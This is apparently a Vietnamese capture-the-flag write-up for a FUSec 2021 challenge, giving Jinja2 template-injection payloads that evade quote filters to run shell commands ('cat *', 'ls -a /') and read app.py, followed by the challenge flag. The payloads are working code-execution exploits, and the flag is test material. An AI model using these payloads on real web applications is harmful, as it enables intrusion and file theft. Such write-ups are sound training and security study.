 ### Sử dụng `cycler`, `__doc__` và `replace` (TungDLM):

```python
{{cycler.__init__.__globals__.os.popen(().__doc__[36:41].replace(chr(97),chr(99)).replace(chr(114),chr(97)).replace(chr(103),chr(116)).replace(chr(117),chr(32)).replace(chr(109),chr(42))).read()}}
```

Dễ hiểu là, chúng ta sẽ lợi dụng đoạn `__doc__` của `Tuple`, ví `__doc__` là một String nên ta chỉ việc cắt một đoạn của nó ra, `replace()` để thay thế các kí tự, sử dụng `chr()` để thay cho việc dùng `''/""`. Nhờ đó tạo được câu lệnh để `os.open()` thực thi (`cat *`) và in ra tại `read()`

Payload hoàn chỉnh:

```python
{% set chr = ().__class__.__base__.__subclasses__()[80].__init__.__globals__.__builtins__.chr %}{{cycler.__init__.__globals__.os.popen(().__doc__[36:41].replace(chr(97),chr(99)).replace(chr(114),chr(97)).replace(chr(103),chr(116)).replace(chr(117),chr(32)).replace(chr(109),chr(42)))}}
```

### Sử dụng `__add__` (by me):

```python
{{().__class__.__base__.__subclasses__()[80].__init__.__globals__.__builtins__.open(chr(97).__add__(chr(112).__add__(chr(112).__add__(chr(46).__add__(chr(112).__add__(chr(121)))))))}}
```

Tại đây mình sử dụng `__add__` để nối các kí tự thành chuỗi và `open()` để mở file, không khuyến khích làm theo, khổ dâm lắm :'( 

Payload hoàn chỉnh:

```python
{% set chr = ().__class__.__base__.__subclasses__()[80].__init__.__globals__.__builtins__.chr %}{{().__class__.__base__.__subclasses__()[80].__init__.__globals__.__builtins__.open(chr(97).__add__(chr(112).__add__(chr(112).__add__(chr(46).__add__(chr(112).__add__(chr(121)))))))}}
```

### New update 2023:

```python
{% set b=lipsum.__globals__ %}{{b.os.popen(b.__builtins__.bytes.fromhex(b.__builtins__.hex(0x6C73202D61202F)[2:]).decode()).read()}}
```

## Flag:

![flag](https://raw.githubusercontent.com/phucdc/write-ups/main/FUSec%202021/img/PRP202_2.png)

Flag: `FUSEC{@@@@@@Th3_n3Xt_l3v3l_pL4y!!!!!!!!}`

> Rất có thể có nhiều cách khác, vì anh TungDLM đã để nhả

> Cảm ơn anh TungDLM và anh TaiDH đã hỗ trợ trong quá trình giải bài này

## References:
